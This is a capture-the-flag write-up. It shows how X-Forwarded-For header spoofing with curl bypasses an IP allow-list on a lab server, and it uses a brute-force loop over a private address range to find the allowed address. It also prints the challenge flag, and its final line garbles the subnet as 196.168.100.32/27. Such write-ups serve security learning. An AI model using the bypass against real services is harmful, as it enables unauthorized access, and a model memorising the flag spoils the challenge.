 ## Component replacement [3 pts]

We're told that we're looking for `fuel efficiency enhancer` at http://key-parts-list.cns-jv.tcc/ and that the old IP range was 192.168.96.0/20.

Querying the URL will tell us that it's expecting an IP from engine room: `You are attempting to access from the IP address 10.200.0.41, which is not assigned to engine room. Access denied. `

So we have to 1) find out how to spoof the source IP address and 2) find out an IP from engine room.

For #1 quick google search yields `X-Forwarded-For` header which works:
`curl -H 'x-forwarded-for: 192.168.96.10' http://key-parts-list.cns-jv.tcc/` -> `You are attempting to access from the IP address 192.168.96.10, which is not assigned to engine room. Access denied.`

For #2 let's just run through the whole range and store results:
`for x in {96..127}; do for y in {0..255}; do echo "$x.$y"; curl -H "x-forwarded-for: 192.168.$x.$y" http://key-parts-list.cns-jv.tcc/ 2>/dev/null > "r_${x}_${y}"; done; done`

and then search for the part needed:

`grep -ri 'fuel efficiency enhancer'`
 ->
 `Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz}`

(Engine room IPs are 192.168.100.32-> 192.168.100.63, i.e.  196.168.100.32/27)
